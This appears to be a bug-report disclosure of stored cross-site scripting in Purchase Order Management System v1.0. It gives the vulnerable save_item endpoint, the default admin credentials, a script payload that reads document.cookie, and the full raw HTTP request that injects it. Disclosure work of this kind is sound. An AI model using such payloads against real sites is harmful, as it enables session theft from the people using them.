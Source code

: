 # Purchase Order Management System v1.0 has stored cross-site scripting

BUG_Author: biantaibao

Website source address:https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability url:/purchase_order/classes/Master.php?f=save_item

POST form-data parameter name="description" exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/purchase_order/admin/login.php

Default Admin Access Information    Username: admin / Password: admin123

2.Click on "Item List" and Click on "+ Create New"

3.Put Payload into the name="description" parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/biantaibao/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /purchase_order/classes/Master.php?f=save_item HTTP/1.1
Host: localhost
Content-Length: 456
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEVgmE4IS3SY3HsV8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=i6hni6v878818jfsm3ur8n792s
Connection: close

------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="name"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="description"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8--
```

5.Payload will trigger when a user visits on http://localhost/purchase_order/admin/?page=items

![image](https://github.com/biantaibao/bug_report/blob/main/xss2.png)

